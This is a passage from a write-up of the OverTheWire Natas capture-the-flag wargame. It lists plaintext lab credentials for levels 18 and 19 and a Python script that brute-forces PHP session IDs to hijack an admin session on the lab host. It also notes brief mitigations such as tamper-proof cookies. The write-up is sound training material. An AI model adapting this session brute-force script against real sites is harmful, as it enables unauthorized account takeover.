 #### What sins are evidenced in this challenge
** Sins here **

#### How could those sins be mitigated
ensure data validation and limit password attempts to counter brute force attack.
Also, ensure database user cannot run SQL priviledged commands.


---
### Natas 18

#### Credentials
natas18
8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq

#### How you passed the challenge
Since session id number is a number from 0 to 640, we can write brute force python script
to create a cookie with different numbers and see which one is associated with an admin:

#! /bin/python
import requests, string, sys
url = "http://natas18.natas.labs.overthewire.org"
username = "natas18"
password = "8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq"
characters = ''.join([string.digits, string.ascii_letters])
passchar = []

s_msg = 'You are an admin'
f_msg = 'You are logged in as a regular user'

for sesid in range(0, 1000):
    cookie = dict(PHPSESSID=str(sesid))
    query = '/index.php?username=admin&password=test&debug'
    uri = url+query
    r = requests.get(uri, auth=(username, password), cookies=cookie)
    if(s_msg in r.text):
        print("Success {}".format(r.text))
        sys.exit()
    elif f_msg in r.text:
        print("Fail SessID# {}".format(sesid))

#### What sins are evidenced in this challenge
** Sins here **

#### How could those sins be mitigated
Ensure cookie are tamper proof with MAC or other mecanism that allows data validation on server as well


---
### Natas 19

#### Credentials
natas19
8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s
